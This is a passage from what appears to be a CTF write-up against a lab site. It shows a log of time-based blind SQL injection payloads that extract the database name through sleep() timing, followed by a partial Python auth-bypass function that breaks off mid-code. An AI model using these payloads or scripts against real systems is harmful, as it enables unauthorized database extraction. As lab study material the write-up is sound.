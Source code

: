 ```sql
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '3%') THEN (sleep(0.1)) ELSE 2 END)   Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '4%') THEN (sleep(0.1)) ELSE 2 END)   Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '5%') THEN (sleep(0.1)) ELSE 2 END)   Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '6%') THEN (sleep(0.1)) ELSE 2 END)   Query took 32 seconds   
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '6%') THEN (sleep(0.1)) ELSE 2 END)   Query took 32 seconds   
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '60%') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '61%') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '62%') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '63%') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '64%') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '65%') THEN (sleep(0.1)) ELSE 2 END)  Query took 32 seconds   
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '65%') THEN (sleep(0.1)) ELSE 2 END)  Query took 32 seconds   
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '650%') THEN (sleep(0.1)) ELSE 2 END) Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '651%') THEN (sleep(0.1)) ELSE 2 END) Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '652%') THEN (sleep(0.1)) ELSE 2 END) Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '653%') THEN (sleep(0.1)) ELSE 2 END) Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '654%') THEN (sleep(0.1)) ELSE 2 END) Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '655%') THEN (sleep(0.1)) ELSE 2 END) Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '656%') THEN (sleep(0.1)) ELSE 2 END) Query took 32 seconds   
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '656%') THEN (sleep(0.1)) ELSE 2 END) Query took 32 seconds   
```

With 32 seconds of response time for every successful query, it ended up in the session being invalidated so I added a logic to programmatically bypass the authentication in case of issue:
```python
def bypassAuth ():
    dashboard_get_url = "https://staging.jackfrosttower.com/dashboard"
    contact_get_url = "https://staging.jackfrosttower.com/contact"
    contact_post_url = "https://staging.jackfrosttower.com/postcontact"

    new = '<p class="success">Data Saved to Database!</p>'
    existing = '<p class="success">Email Already Exists</p>'

    postdata = {"fullname":"1@1.1","email":"1@1.1","phone":"1@1.1","country":"-Select-","submit":"SAVE"}

    r = HTTP_SESSION.get(dashboard_get_url)
    if "login" in r.url:
        sys.stderr.write("Need to bypass Auth\n")
        r = HTTP_SESSION.get(contact_get_url)
        sys.stderr.write("First GET done\n")
        
        csrf = getCsrfToken (r)
        postdata["_csrf"] = csrf
```